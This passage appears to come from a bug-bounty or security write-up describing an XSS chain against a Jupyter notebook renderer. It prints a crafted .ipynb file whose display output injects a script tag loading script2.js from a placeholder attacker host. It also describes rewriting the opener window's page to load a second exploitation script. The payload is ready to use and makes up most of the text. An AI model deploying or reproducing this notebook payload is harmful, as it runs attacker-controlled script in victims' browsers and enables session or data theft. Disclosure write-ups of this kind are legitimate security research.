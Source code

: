 `top.window.opener.document.body.innerHTM` we are also modifying the source of that page to load the `script1.js` file there which does the actual exploitation part.

 > 
 > xss.ipynb

````json
{
 "cells": [
  {
   "cell_type": "code",
   "execution_count": 0,
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/html": ["<script src='https://<attacker-host>/script2.js'></script>"],
      "text/plain": []
     },
     "metadata": {},
     "output_type": "display_data"
    }
   ],
   "source": [
    ""
   ]
  }
 ],
 "metadata": {
  "kernelspec": {
   "display_name": "Python 3",
   "language": "python",
   "name": "python3"
  },
  "language_info": {
   "codemirror_mode": {
    "name": "ipython",
    "version": 3
   },
   "file_extension": ".py",
   "mimetype": "text/x-python",
   "name": "python",
   "nbconvert_exporter": "python",
   "pygments_lexer": "ipython3",
   "version": "3.9.6"
  }
 },
 "nbformat": 4,
 "nbformat_minor": 5
}

````
<br/>
One thing which I did extra was to make use of `opener` property to iframe the vulnerable endpoint  there instead in the same Jupyter notebook renderer if I remember there was still some framing issues I tried going through the chats but I am missing what exactly was the cause which led to this. Well anyways rest of things should be easy to understand
